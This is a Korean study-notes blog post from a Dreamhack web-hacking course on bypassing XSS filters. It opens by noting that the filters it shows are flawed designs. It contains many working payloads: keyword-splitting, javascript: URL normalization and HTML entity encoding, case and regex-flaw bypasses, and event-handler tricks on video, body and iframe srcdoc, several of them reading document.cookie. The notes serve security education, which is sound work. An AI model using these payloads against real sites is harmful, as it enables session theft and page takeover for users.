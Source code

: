 ```yaml
---
layout : single
title : "STAGE2. XSS Filtering Bypass (1)"
categories: web-hacking-advanced
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```


# Web Hacking Advanced(Client Side) - XSS Filtering Bypass

- [x] 문자열 치환 실습
- [x] 태그 기반 필터링 우회 실습

## Exploit Tech : XSS Filtering Bypass - 1

\* 강의에서 소개되는 필터링은 모두 잘못된 방식의 필터링이며, XSS 취약점을 근본적으로 제거하기 위해서는 태그 삽입이 되지 않도록 처음부터 원인을 제거해야한다

### 불충분한 XSS 필터링

HTML에는 별다른 규율 없이 정립된 규칙들이 쌓여 이를 해석하는 소프트웨어 작성에 어려움을 더했으며, HTML의 일부 기능을 비활성화하고자 하는 XSS 필터링 또한 이에 포함된다. HTML에서 js 코드를 실행하거나 페이지에 변형을 가하는 방법은 여러가지가 있으며, XSS 필터링은 이를 모두 막아야한다. 안전하지 않은 코드를 실행할 수 있는 방법은 계속 증가하고 있으므로, XSS 필터링은 안전하다고 알려진 마크업만 허용하는 보수적인 방법을 취해야한다. 일부 문자열만을 바탕으로 필터링을 진행하면 허위양성 또는 허위음성이 발생하여 필터링 자체가 제대로 이루어지지 못할 수 있다.

### 이벤트 핸들러 속성

js 코드를 실행할 수 있는 html 태그로는 script 이외에도 여러 가지 가 있다. 태그의 속성값으로 스크립트를 포함할 수 있는 경우가 다수 존재하며, 대표적으로 이벤트 핸들러를 지정하는 on으로 시작하는 속성들이 있다. (*이벤트 핸들러 : 특정 요소에서 발생하는 이벤트를 처리하기 위해 존재하는 콜백 형태의 핸들러 함수) 따라서 이 안에 XSS 공격 코드를 삽입해두면 해당 이벤트가 발생했을 때 XSS 공격 코드가 실행된다. 

대표적인 이벤트 핸들러 + [etc](https://developer.mozilla.org/ko/docs/Web/Events)

|Event handler|Description|
|:---|:---|
|onload|태그가 요청하는 데이터를 로드한 후 실행|
|onerror|태그가 요청하는 데이터를 로드하는 데 실패 시 실행|
|onfocus|input 태그에 커서를 클릭하여 focus 상태가 되면 실행<br>autofocus 속성을 사용해 자동으로 focus 시키거나, URL의 해시에 input 태그의 id 속성값을 입력하여 포커스되도록 함|

### 문자열 치환

XSS 키워드를 필터링할 때 의심되는 구문을 거부하는 대신 단순히 치환 / 제거하는 방식의 필터링 관습이 존재하며, 이러할 경우 "scr*script*ipt"와 같이 제거되는 키워드를 중간에 삽입하여 우회할 수 있다. 따라서, 필터링 자체가 무력화되며 웹 응용 방화벽에서 다음과 같은 공격 페이로드를 탐지하지 못한다.

```javascript
(x => x.replace(/onerror/g, ''))('<img oneonerrorrror=promonerrorpt(1)>')
--> <img onerror=prompt(1) />
```

이에 대한 대안으로, 다음과 같이 문자열에 변화가 없을 때까지 치환을 진행하는 방식이 사용되기도 하지만, 특정 키워드가 최종 마크업에 등장하지 않도록 하는 데에는 효과적이지만 고려하지 못한 구문의 방어와 WAF 방어 무력화 등은 동일하다

```javascript
function replaceIterate(text) {
    while (true) {
        var newText = text
            .replace(/script|onerror/gi, '');
        if (newText === text) break;
        text = newText;
    }
    return text;
}
replaceIterate('<imgonerror src="data:image/svg+scronerroriptxml,&lt;svg&gt;" onloadonerror="alert(1)" />')
--> <img src="data:image/svg+xml,&lt;svg&gt;" onload="alert(1)" />
replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
--> <iframe srcdoc="&lt;script&gt;parent.alert(1)&lt;/script&gt;" />
```

### 활성 하이퍼링크

HTML 마크업에서 사용되는 URL들은 활성 콘텐츠를 포함할 수 있다. 이 중 javascript: 스키마에는 URL 로드 시 자바스크립느 코드를 실행할 수 있도록 하며, 다음 코드와 같이 URL을 속성값으로 받는 a 태그나 iframe 태그 등에 사용할 수 있다. 이 때문에 XSS 키워드를 필터링할 때, javascript: 스키마를 사용하지 못하도록 필터링 하는 경우가 존재한다.

```html
<a href="javascript:alert(document.domain)">Click me!</a>
<iframe src="javascript:alert(document.domain)">
```

이러한 경우에는 브라우저들이 URL을 사용할 때 거치는 과정 중 하나인 정규화를 이용해 우회할 수 있는 경우가 존재하는데, 정규화는 동일한 리소스를 나타내는 서로 다른 URL을 통일된 형태로 변환하는 과정으로, \x01, \x04와 같은 특수문자들이 제거되고, 스키마의 대소문자가 통일된다. 

```html
<a href="\1\4jAVasC\triPT:alert(document.domain)">Click me!</a>
<iframe src="\1\4jAVasC\triPT:alert(document.domain)">
```

태그의 속성 내에서 HTML Entity Encoding을 사용하면 javascript: 스키미나 이외의 XSS 키워드를 인코딩하여 필터링을 우회하는 경우가 존재한다. 아래는 이를 통한 우회 예시이다.

```html
<a href="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">Click me!</a>
<iframe src="\1&#4;J&#97;v&#x61;sCr\tip&tab;&colon;alert(document.domain);">
```

js 에서는 URL 객체를 통해 URL을 직접 정규화할 수 있으며, protocol, hostname 등 URL의 각종 정보를 추출할 수 있다. XSS 필터링 우회 공격 구문을 작성하기 위해 직접 URL을 정규화하며 테스트하는 것이 가능하다

```javascript
function normalizeURL(url) {
    return new URL(url, document.baseURI);
}
normalizeURL('\4\4jAva\tScRIpT:alert(1)')
--> "javascript:alert"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').protocol
--> "javascript:"
normalizeURL('\4\4jAva\tScRIpT:alert(1)').pathname
--> "alert(1)"
```

### 태그와 속성 기반 필터링

단순히 태그나 속성을 바탕으로 필터링을 하게 되면 우회가 간으한 경우가 많다

1) 대문자 혹은 소문자만을 인식하는 필터 우회

```javascript
x => !x.includes('script') && !x.includes('on')
```

위와 같이 특정 키워드의 대소문자를 모두 검사하지 않을 경우, 다음과 같이 이를 우회할 수 있다

```html
<sCRipT>alert(document.cookie)</scriPT>
<img src=x: oneRroR=alert(document.cookie) />
```

---

2) 잘못된 정규표현식을 사용한 필터 우회

일반적으로 키워드를 필터링할 때에는 정규표현식을 이용하는데, 이에 문제가 있는 경우 정규표현식을 만족하면서 XSS 공격 구문을 삽입하는 것이 가능하다. 

다음과 스크립트 태그 내에 데이터가 존재하는 지 검사하는 정규표현식의 경우, src 속성을 통해 데이터를 입력하는 방식을 통하여 우회가 가능하다.

```javascript
x => !/<script[^>]*>[^<]/i.test(x)
```

```html
<script src="data:,alert(document.cookie)"></script>
```

또한 , 다음과 같이 img 태그에 on 이벤트 핸들러가 존재하는 지 검사하는 정규표현식의 경우, 멀티라인에 대한 검사가 존재하지 않기 때문에 줄바꿈문자를 이용해 우회할 수 있다.

```javascript
x => !/<img.*on/i.test(x)
```

```html
<img src=""\nonerror="alert(document.cookie)"/>
```

### 특정 태그 및 속성에 대한 필터링을 다른 태그 및 속성을 이용하여 필터 우회

HTML에는 굉장히 다양한 종류의 태그와 속성이 존재하므로, XSS 공격에 보편적으로 사용하는 script, img, input과 같은 태그를 필터링한다고 모든 공격을 막을 수 없다. 

다음과 같이 script, img, input 태그를 사용하지 못하도록 하는 필터링의 경우, 다른 태그를 사용해 공격을 시도할 수 있다.

```javascript
x => !/<script|<img|<input/i.test(x)
```

```html
<video><source onerror="alert(document.domain)"/></video>
<body onload="alert(document.domain)"/>
```

또한, 이와 같이 이벤트 핸들러와 멀티라인을 지원하는 문자까지 필터링하는 경우, iframe을 이용해 우회할 수 있다. iframe의 src는 URL을 인자로 받기에, 활성 하이퍼링크를 이용해 자바스크립트 코드를 삽입할 수 있으며, srcdoc 속성을 이용하여 inner frame 내에 새로운 공격 코드를 입력하는 것이 가능하다. 이 때 HTML Entity Encoding으로 기존 필터링을 우회할 수 있다

```javascript
x => !/<script|<img|<input|<.*on/is.test(x)
```

```html
<iframe src="javascript:alert(parent.document.domain)">
<iframe srcdoc="<&#x69;mg src=1 &#x6f;nerror=alert(parent.document.domain)>">
```
